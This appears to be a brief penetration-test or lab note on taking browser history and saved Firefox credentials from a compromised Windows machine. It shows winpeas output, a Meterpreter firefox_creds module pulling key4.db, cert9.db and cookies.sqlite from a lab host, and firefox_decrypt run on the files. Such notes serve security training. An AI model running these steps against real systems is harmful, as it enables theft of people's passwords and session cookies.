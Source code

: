 # Browser password et history

## history

output de winpeas:

```txt
C:\Users\katwamba\AppData\Roaming\Mozilla\Firefox\Profiles\6o1ryota.default-release\places.sqlite
```

## password

```sh
meterpreter > run post/multi/gather/firefox_creds 

[*] Checking for Firefox profile in: C:\Users\katwamba\AppData\Roaming\Mozilla\

[*] Profile: C:\Users\katwamba\AppData\Roaming\Mozilla\Firefox\Profiles\6o1ryota.default-release
[+] Downloaded cert9.db: /root/.msf4/loot/20210102123152_default_172.16.1.20_ff.6o1ryota.cert_540328.bin
[+] Downloaded cookies.sqlite: /root/.msf4/loot/20210102123155_default_172.16.1.20_ff.6o1ryota.cook_779384.bin
[+] Downloaded key4.db: /root/.msf4/loot/20210102123209_default_172.16.1.20_ff.6o1ryota.key4_028261.bin

[*] Profile: C:\Users\katwamba\AppData\Roaming\Mozilla\Firefox\Profiles\vd59vltl.default

meterpreter >
```

## Decrypt Firefox Db

┌─[user@parrot-virtual]─[~/Downloads/20/katwamba_firefox]
└──╼ $cp 20210102123152_default_172.16.1.20_ff.6o1ryota.cert_540328.bin cert9.db
┌─[user@parrot-virtual]─[~/Downloads/20/katwamba_firefox]
└──╼ $cp 20210102123155_default_172.16.1.20_ff.6o1ryota.cook_779384.bin cookies.sqlite
┌─[user@parrot-virtual]─[~/Downloads/20/katwamba_firefox]
└──╼ $cp 20210102123209_default_172.16.1.20_ff.6o1ryota.key4_028261.bin key4.db

┌─[user@parrot-virtual]─[~/Downloads/20/katwamba_firefox]
└──╼ $python firefox_decrypt/firefox_decrypt.py .
